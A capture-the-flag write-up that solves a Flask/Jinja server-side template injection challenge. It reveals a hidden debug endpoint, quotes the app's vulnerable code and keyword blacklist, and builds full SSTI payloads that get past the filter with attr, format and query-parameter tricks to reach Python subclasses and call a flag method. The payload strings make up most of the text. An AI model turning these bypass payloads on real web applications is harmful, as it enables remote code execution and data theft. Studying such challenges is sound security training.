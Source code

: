 ## Solution

1.  Looking at the source code of main page you can find `/debug_it` endpoint.
 
![Html source code](../images/1.png)

2. When you try to access it you may see `Wrong method` information. To check how to access this endpoint, simply use `OPTIONS` HTTP request type.


![OPTIONS response](../images/2.png)

3. After using `DEBUG` request type, you get the access to a part of source code of application. Part that interests us is here:
```python
ip_unsanitized = request.args.get('ip') or None
if ip_unsanitized is None:
    return abort(400, 'No ip parameter')
else:
    ip = sanitize(ip_unsanitized)
    location = get_location_for(ip)
    try:
        template = render_template_string(render_template('results.html', ip=ip, location=location))
        return template
    except Exception as e:
        logging.error(e)
        abort(500)
```
We can see here that saintized IP is passed directly to the HTML

4. We need to bypass saintization:
```python
blacklist = ["__class__", "__subclasses__", "request[request.", "__", "|join", '[', ']' ]
for bad in blacklist:
    if bad in string:
        abort(400, f"No hacking here - { bad } is not allowed") 
```

5. We will use Jinja templates. Usefull Jinja/python code:
   
- `__class__` - access working class
- `__mro__` - access classe's parents
- `__subclasses__` - access classe's sublclasses

6. Ideally we will use something like:
```jinja
{{request.__class__.__mro__[11].__subclasses__()[483].get__flag()}}
```

We access Request class, then Object and get it's all subclasses (our Flag class derives from it). If we look into it using `__dict__` we can see `get__flag()` method. Just use it 

> 483 is just temporary value - it may vary depending on running python version

Unfortunately we need to bypass sanitization

### Bypassing

- We can use `format` and `attr`:
```jinja
{{request|attr(request.args.f|format(request.args.a,request.args.a,request.args.a,request.args.a))}}&f=%s%sclass%s%s&a=_
```
This string bypasses `__`, `__class__` and `|join`. It uses syntax similar to URL query params

- Now we need to bypass `[` `]` sanitization and access `__mro__[11]` (we cannot use direct array access):
```jinja
{%set%20a,b,c,d,e,f,g,h,i,j,k,l%20=%20(request|attr(request.args.class|format(request.args.a,request.args.a,request.args.a,request.args.a))|attr(request.args.mro|format(request.args.a,request.args.a,request.args.a,request.args.a)))%}{{l}}&class=%s%sclass%s%s&a=_&mro=%s%smro%s%s
```
We can just access 11th created element `l`

- Now is the time for `__subclasses__`:
```jinja
{%set%20a,b,c,d,e,f,g,h,i,j,k,l%20=%20(request|attr(request.args.class|format(request.args.a,request.args.a,request.args.a,request.args.a))|attr(request.args.mro|format(request.args.a,request.args.a,request.args.a,request.args.a)))%}{{(l|attr(request.args.subclasses|format(request.args.a,request.args.a,request.args.a,request.args.a))())}}&class=%s%sclass%s%s&a=_&mro=%s%smro%s%s&subclasses=%s%ssubclasses%s%s
```
We use similar method as before (a lot of query params and formats)

- If we have our subclasses we need to access its 500th element (or something around it). We do not want to create over 500 variables so we will use `pop()`:
```jinja
{%set%20a,b,c,d,e,f,g,h,i,j,k,l%20=%20(request|attr(request.args.class|format(request.args.a,request.args.a,request.args.a,request.args.a))|attr(request.args.mro|format(request.args.a,request.args.a,request.args.a,request.args.a)))%}{{(l|attr(request.args.subclasses|format(request.args.a,request.args.a,request.args.a,request.args.a))()).pop(500)}}&class=%s%sclass%s%s&a=_&mro=%s%smro%s%s&subclasses=%s%ssubclasses%s%s
```

- When we have our `Flag` class we want to look into it's methods - we use `__dict__`:
```jinja
{%set%20a,b,c,d,e,f,g,h,i,j,k,l%20=%20(request|attr(request.args.class|format(request.args.a,request.args.a,request.args.a,request.args.a))|attr(request.args.mro|format(request.args.a,request.args.a,request.args.a,request.args.a)))%}{{(l|attr(request.args.subclasses|format(request.args.a,request.args.a,request.args.a,request.args.a))()).pop(597)|attr(request.args.dict|format(request.args.a,request.args.a,request.args.a,request.args.a))}}&class=%s%sclass%s%s&a=_&mro=%s%smro%s%s&subclasses=%s%ssubclasses%s%s&dict=%s%sdict%s%s
```

![dict response](../images/5.png)

- We can see `get_____flag()` method:
```jinja
{%set%20a,b,c,d,e,f,g,h,i,j,k,l%20=%20(request|attr(request.args.class|format(request.args.a,request.args.a,request.args.a,request.args.a))|attr(request.args.mro|format(request.args.a,request.args.a,request.args.a,request.args.a)))%}{{(l|attr(request.args.subclasses|format(request.args.a,request.args.a,request.args.a,request.args.a))()).pop(597)|attr(request.args.getflag|format(request.args.a,request.args.a,request.args.a,request.args.a,request.args.a))()}}&class=%s%sclass%s%s&a=_&mro=%s%smro%s%s&subclasses=%s%ssubclasses%s%s&getflag=get%s%s%s%s%sflag
```


![Result](../images/4.png)
